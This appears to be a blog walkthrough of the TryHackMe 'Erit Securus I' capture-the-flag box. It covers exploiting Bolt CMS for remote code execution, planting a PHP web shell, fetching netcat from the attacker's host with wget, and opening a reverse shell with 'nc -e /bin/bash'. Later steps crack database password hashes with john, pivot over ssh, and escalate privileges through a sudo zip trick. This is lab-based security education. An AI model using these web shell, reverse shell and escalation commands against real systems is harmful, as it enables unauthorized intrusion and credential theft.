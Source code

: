 ```yaml
---
layout: post
title: "Erit Securus I - TryHackMe"
date: 2020-07-20
ctf: true
excerpt: "Walkthrough for Erit Securus I on TryHackme"
tags: [Erit Securus I, TryHackMe,pivoting, bolt cms]
comments: false
---
```



Erit Securus I is an easy rated difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to compromise this system.

### Task 1

Task 1 just requires you to deploy the box and confirm that you have started it up.

### Task 2

Task 2 asks you to scan the box, running **nmap -A [machine ip]** provides you with the answers to **Question 1** and **Question 2**.

![Erit Securus nmap](/assets/img/EritSecurus1.png)

### Task 3

There is only one question to answer for this task, which asks you what CMS is being utilized. This can be found by opening up the website in your browser and scrolling to the bottom of the page.

![Erit Securus CMS type](/assets/img/EritSecurus2.png)

### Task 4

Task 4 asks you to download an [exploit](https://github.com/r3m0t3nu11/Boltcms-Auth-rce-py). **Question 1** asks what language the exploit is coded in. Reviewing the exploit itself tells you what language it is coded in on line 1 of the exploit.

![Erit Securus exploit language](/assets/img/EritSecurus3.png)

**Question 2** asks you to find the login page to bolt. This can be found in the exploit on line 44 of the exploit code. You are also provided with credentials to login with in the hint for this question.

![Erit Securus bolt login page](/assets/img/EritSecurus4.png)

### Task 5

Save the exploit code to your attacker machine. Next, go to the directory where you saved the exploit, and run **python3 exploit.py http://[machine ip] username password**. The username and password were provided in the previous Task's hint. Once connected, run either **whoami** or **id** to get the username to answer **Question 1**.

![Erit Securus bolt exploit](/assets/img/EritSecurus5.png)

Next, follow the steps mentioned in the room to establish a reverse shell. First, run **echo '\<?php system($_GET["c"]);?\>'\>c.php**. This creates a file named **c.php** which you can use to send system commands through.

![Erit Securus c.php](/assets/img/EritSecurus6.png)

Next, open another terminal window on your attacker machine and run **ln -s $(which nc)**. This will be used to link netcat to the current directory.

![Erit Securus netcat link](/assets/img/EritSecurus7.png)

Next, run **python3 -m http.server** to serve up an http server that will be used by the victim machine to pull over netcat.

![Erit Securus python3 http server](/assets/img/EritSecurus8.png)

Next, navigate to **http://[machine ip]/files/c.php?c=whoami** to see if your php file you created a few lines above works as expected, it should return a result of www-data.

![Erit Securus whoami](/assets/img/EritSecurus9.png)

Next, change the command above from whoami to **wget http://[attackerip]:8000/nc**.

![Erit Securus wget nc](/assets/img/EritSecurus10.png)

 Nothing will show up in the browser window, but if you look at your python http server, you should see that a file (nc) was transferred to the victim computer.

![Erit Securus wget download nc](/assets/img/EritSecurus11.png)

Create a netcat listener on our attacker pc with **nc -nvlp [port number]**.

![Erit Securus nc listener](/assets/img/EritSecurus12.png)

Now, change the URL on the victim machine from the wget command to **http://[machine ip]/files/c.php?c=chmod 755 nc** to make netcat an executable on the victim machine.

![Erit Securus chmod](/assets/img/EritSecurus13.png)

You will not see any confirmation that the permissions were changed on this file. However, we should now be able to run nc on the victim computer with **http://[machine ip]/files/c.php?c=./nc -e /bin/bash [attacker ip] [port nc is listening on]**. You should now have a connection on your attacker computer.

![Erit Securus bash shell](/assets/img/EritSecurus14.png)

Now, let's get a nicer shell by running **python -c 'import pty; pty.spawn("/bin/sh")'**.

![Erit Securus python shell](/assets/img/EritSecurus15.png)

### Task 6

Now that we have a reverse shell, run **cd /var/www/html/app/database** to get into the directory the bolt database is in as specified in the directions.

![Erit Securus database](/assets/img/EritSecurus16.png)

Next, run **sqlite3 bolt.db** to open the database. Then run **.tables** to list the tables. Last, let's enumerate the users with **SELECT * from bolt_users;**

![Erit Securus database user enumeration](/assets/img/EritSecurus17.png)

We currently have the credentials for admin, but not for wildone. Copy the entire hash (between the second and third | characters) and save it to a file. I saved it to a file named erithashes.txt. Next, run **john erithashes.txt -wordlist=/usr/share/wordlists/rockyou.txt**. This will crack the password for wildone, which is the answer to **Question 1** for this task.

![Erit Securus wildone password](/assets/img/EritSecurus18.png)

Next, follow the provided instructions and run **su wileec** and enter the password you just cracked.

![Erit Securus wileec user](/assets/img/EritSecurus19.png)

Next, type in **cd /home/wileec**, followed by **ls**, and then **cat flag1.txt** to get the answer to **Question 2**.

![Erit Securus flag1.txt](/assets/img/EritSecurus20.png)

### Task 7

Next, let's follow the directions provided and run **ssh wileec@192.168.100.1** from our current session as wileec to pivot to another machine.

![Erit Securus ssh](/assets/img/EritSecurus21.png)

Next, run **sudo -l** to see what privileges can be ran as sudo, which is the answer to **Question 1**.

![Erit Securus sudo -l](/assets/img/EritSecurus22.png)

### Task 8

Lets look at [GTFOBins](https://gtfobins.github.io/) to see what ways we can escalate with the command listed in sudo -l. Looking up this command will show you a way to elevate privileges with sudo. Enter the following commands to elevate privileges: **TF=$(mktemp -u)** followed by **sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'**.

![Erit Securus gtfobins zip su jsmith](/assets/img/EritSecurus23.png)

Next, run **cd ..** followed by **cd jsmith** to get into jsmith's home directory and then run **ls -al** to list the contents, there is a second flag here. View the flag with **cat flag2.txt**. This is the answer to **Question 1** for Task 8.

### Task 9

Let's run **sudo -l** as jsmith and see what commands they can potentially run as root.

![Erit Securus jsmith sudo -l](/assets/img/EritSecurus25.png)

What they can run as sudo is the answer to **Question 1**. Next, there are numerous ways to gain root, but the easiest way is with **sudo su root**. From here run **cd /root** followed by **ls**. Run **cat flag3.txt** to get the final flag and the answer to **Question 2** to finish this challenge!

![Erit Securus flag3.txt](/assets/img/EritSecurus26.png)
